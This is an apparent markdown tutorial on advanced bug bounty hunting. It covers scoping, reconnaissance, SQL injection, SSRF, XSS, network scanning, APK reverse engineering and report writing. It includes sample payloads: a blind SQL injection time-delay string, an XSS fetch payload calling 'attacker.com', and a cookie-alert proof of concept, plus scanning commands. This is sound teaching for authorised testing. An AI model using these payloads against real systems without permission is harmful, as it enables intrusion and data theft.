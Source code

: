 # Advanced Bug Bounty Hunting Tutorial

Bug bounty hunting is a process of ethically hacking systems, applications, and networks to find vulnerabilities. This advanced guide will help you sharpen your skills, approach bug bounty programs strategically, and identify critical vulnerabilities that reward higher bounties.

---

## Table of Contents

1. **Understanding Bug Bounty Programs**
   - Scope and Rules
   - Reading Program Policies
2. **Advanced Reconnaissance**
   - Subdomain Enumeration
   - Asset Discovery
   - Third-party and Forgotten Assets
3. **Exploiting Web Applications**
   - Advanced SQL Injection Techniques
   - Server-side Request Forgery (SSRF)
   - Cross-Site Scripting (XSS) in Depth
   - Remote Code Execution (RCE)
4. **Network-based Vulnerabilities**
   - Identifying Open Ports and Services
   - Exploiting Misconfigured Network Protocols
5. **Mobile Application Security**
   - Reverse Engineering APKs
   - Testing APIs and Endpoints
   - Identifying Local Storage Vulnerabilities
6. **Automating the Hunt**
   - Tools and Scripts
   - Custom Wordlists
7. **Reporting Vulnerabilities**
   - Writing Clear and Impactful Reports
   - Providing Proof-of-Concept (PoC)

---

## 1. Understanding Bug Bounty Programs

### Scope and Rules
Before starting, carefully review the scope of the program. This includes:
- Allowed domains, subdomains, and applications.
- Specific exclusions (e.g., third-party services or internal networks).
- Rules of engagement (e.g., no DDoS or social engineering).

### Reading Program Policies
Understand:
- Reward structures.
- Response time.
- Expected formats for reports.

## 2. Advanced Reconnaissance

### Subdomain Enumeration
Use tools like `Subfinder`, `Amass`, and `Assetfinder` to find subdomains. Combine the results and validate using `Httpx`.

```bash
subfinder -d example.com | httpx -silent
```

### Asset Discovery
Scan for hidden directories and endpoints:
- Use tools like `FFUF` or `Dirbuster` with custom wordlists.

### Third-party and Forgotten Assets
Identify assets hosted on forgotten servers or third-party services using `crt.sh`, `Wayback Machine`, and similar tools.

## 3. Exploiting Web Applications

### Advanced SQL Injection Techniques
1. Test for Blind SQLi using conditional responses or time delays.
2. Use tools like `sqlmap` but validate manually to avoid false positives.

Example:
```sql
?id=1' AND SLEEP(5)--
```

### Server-Side Request Forgery (SSRF)
Test internal services by leveraging SSRF:
- Identify file://, gopher://, or other non-HTTP protocols.
- Use cloud metadata endpoints (e.g., AWS, Google Cloud).

### Cross-Site Scripting (XSS) in Depth

1. **DOM-based XSS**: Look for insecure JavaScript handling user inputs.
2. **Stored XSS**: Find persistent injections that impact other users.
3. **Bypassing Filters**: Use advanced payload encoding techniques.

Payload Example:
```html
<svg/onload=fetch('https://attacker.com')>
```

### Remote Code Execution (RCE)
Identify endpoints that process user inputs without sanitization:
- Test file uploads with malicious payloads.
- Use parameter tampering to inject commands.

## 4. Network-based Vulnerabilities

### Identifying Open Ports and Services
Use tools like `Nmap` and `Masscan` to map services and ports:

```bash
nmap -sV -p- example.com
```

### Exploiting Misconfigured Network Protocols
- Test for default credentials on services like FTP, SMB, and SNMP.
- Exploit vulnerabilities in outdated versions of services (e.g., Heartbleed).

## 5. Mobile Application Security

### Reverse Engineering APKs
Decompile APKs using `APKTool` to analyze code and extract endpoints.

```bash
apktool d app.apk
```

### Testing APIs and Endpoints
- Capture and analyze API traffic using `Burp Suite` or `Postman`.
- Look for insecure API methods (e.g., `GET` requests handling sensitive data).

### Identifying Local Storage Vulnerabilities
Inspect local storage for sensitive information:
- Check SQLite databases, shared preferences, and local files.

## 6. Automating the Hunt

### Tools and Scripts
- **Burp Suite**: For web vulnerability scanning.
- **ReconFTW**: For automated reconnaissance.
- **Nuclei**: For vulnerability template scanning.

### Custom Wordlists
Create targeted wordlists based on technology stacks:
- Use `CeWL` to generate lists from websites.
- Include parameters, common directory names, etc.

## 7. Reporting Vulnerabilities

### Writing Clear and Impactful Reports
- Clearly describe the vulnerability and its impact.
- Provide steps to reproduce and evidence (screenshots, logs).

### Providing Proof-of-Concept (PoC)
- Include working PoCs whenever possible.
- Example for XSS PoC:

```html
<script>alert(document.cookie)</script>
```

---

## Conclusion
Advanced bug bounty hunting requires persistence, creativity, and continuous learning. Stay updated with the latest techniques and tools by participating in communities like Bugcrowd, HackerOne, and Open Bug Bounty. Happy hunting!

